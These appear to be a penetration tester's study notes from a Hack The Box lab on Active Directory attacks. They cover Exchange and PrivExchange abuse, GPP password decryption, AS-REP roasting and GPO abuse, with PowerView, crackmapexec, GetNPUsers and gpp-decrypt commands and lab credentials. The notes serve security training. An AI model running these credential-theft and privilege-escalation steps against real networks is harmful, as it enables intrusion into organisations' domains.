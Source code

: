 
## Exchange Related Group Membership

Exchange Members by default has the right to write DACL to the domain object
1. Leveraged to give user DCSync privileges 
2. Maybe has the right to remote access & reset users passwords
3. Often has the access to mailBoxes 
4. Not uncommon for domain admins / sysadmins to be members of this group
5. If exchange server compromised , we may be often have ability to dump plainText credentials or NTLM hashes due to users often logged in Outlook Web Access (OWA) and Exchange caching their credentials in memory after a successful login .

## PrivExchange

The `PrivExchange` attack results from a flaw in the Exchange Server `PushSubscription` feature, which allows any domain user with a mailbox to force the Exchange server to authenticate to any host provided by the client over HTTP.

The Exchange service runs as SYSTEM and is over-privileged by default (i.e., has WriteDacl privileges on the domain pre-2019 Cumulative Update). This flaw can be leveraged to relay to LDAP and dump the domain NTDS database. If we cannot relay to LDAP, this can be leveraged to relay and authenticate to other hosts within the domain. This attack will take you directly to Domain Admin with any authenticated domain user account.

## Printer Bug

#### Enumerating for MS-PRN Printer Bug

```powershell-session
PS C:\htb> Import-Module .\SecurityAssessment.ps1
PS C:\htb> Get-SpoolStatus -ComputerName ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL

ComputerName                        Status
------------                        ------
ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL   True
```

<mark style="background: #D2B3FFA6;"> __notes__ : Must do <span style="color: green"> Mantis</span>  Box on HTB</mark>

## <span style="color:red">Sniffing LDAP Credentials </span>

-  https://grimhacker.com/2018/03/09/just-a-printer/

## Enumerating DNS Records

#### Using adidnsdump

```shell
Sauuron@htb[/htb]$ adidnsdump -u inlanefreight\\forend ldap://172.16.5.5 
```

#### Finding Passwords in the Description Field using Get-Domain User

```powershell
PS C:\htb> Get-DomainUser * | Select-Object samaccountname,description |Where-Object {$_.Description -ne $null}

samaccountname description
-------------- -----------
administrator  Built-in account for administering the computer/domain
guest          Built-in account for guest access to the computer/domain
krbtgt         Key Distribution Center Service Account
ldap.agent     *** DO NOT CHANGE ***  3/12/2012: Sunsh1ne4All!
```

#### Checking for PASSWD_NOTREQD Setting using Get-DomainUser

When this flag set means the user doesn't have to follow the password policy, thus the password might be blank or a short weak password

```powershell
PS C:\htb> Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol
```

## Group Policy Preferences (GPP) Passwords

When a new GPP is created, an .xml file is created in the SYSVOL share, which is also cached locally on endpoints that the Group Policy applies to. These files can include those used to:

- Map drives (drives.xml)
- Create local users
- Create printer config files (printers.xml)
- Creating and updating services (services.xml)
- Creating scheduled tasks (scheduledtasks.xml)
- Changing local admin passwords.

#### Decrypting the Password with gpp-decrypt

```shell
Sauuron@htb[/htb]$ gpp-decrypt VPe/o9YRyz2cksnYRbNeQj35w9KxQ5ttbvtRaAVqxaE

Password1
```

#### Using CrackMapExec's gpp_autologin Module

```shell
Sauuron@htb[/htb]$ crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin
```

## ASREPRoasting

<mark style="background: #FF5582A6;">It's possible to obtain the Ticket Granting Ticket (TGT) for any account that has the [Do not require Kerberos pre-authentication](https://www.tenable.com/blog/how-to-stop-the-kerberos-pre-authentication-attack-in-active-directory) setting enabled.</mark>

<mark style="background: #FF5582A6;">ASREPRoasting is similar to Kerberoasting, but it involves attacking the AS-REP instead of the TGS-REP. An SPN is not required.</mark>

#### Enumerating for DONT_REQ_PREAUTH Value using Get-DomainUser

**DONT_REQ_PREAUTH**

```powershell
PS C:\htb> Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl

samaccountname     : mmorgan
userprincipalname  : mmorgan@inlanefreight.local
useraccountcontrol : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, DONT_REQ_PREAUTH
```

<mark style="background: #FF5582A6;">When performing user enumeration with `Kerbrute`, the tool will automatically retrieve the AS-REP for any users found that do not require Kerberos pre-authentication.</mark>

#### Hunting for Users with Kerberoast Pre-auth Not Required

```shell
Sauuron@htb[/htb]$ GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users 
```

## Group Policy Object (GPO) Abuse

- Adding additional rights to a user (such as SeDebugPrivilege, SeTakeOwnershipPrivilege, or SeImpersonatePrivilege)
- Adding a local admin user to one or more hosts
- Creating an immediate scheduled task to perform any number of actions

#### Enumerating GPO Names with PowerView

```powershell
PS C:\htb> Get-DomainGPO |select displayname

displayname
-----------
Default Domain Policy
Default Domain Controllers Policy
Deny Control Panel Access
Disallow LM Hash
Deny CMD Access
Disable Forced Restarts
Block Removable Media
Disable Guest Account
Service Accounts Password Policy
Logon Banner
Disconnect Idle RDP
Disable NetBIOS
AutoLogon
GuardAutoLogon
Certificate Services
```

#### Converting GPO GUID to Name

```powershell
PS C:\htb Get-GPO -Guid 7CA9C789-14CE-46E3-A722-83F4097AF532
```

Take advantage of the GPO misconfigurations [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse) 

#### Research 

- Active Directory Certificate Services (AD CS) attacks
- Kerberos Constrained Delegation
- Kerberos Unconstrained Delegation
- Kerberos Resource-Based Constrained Delegation (RBCD)

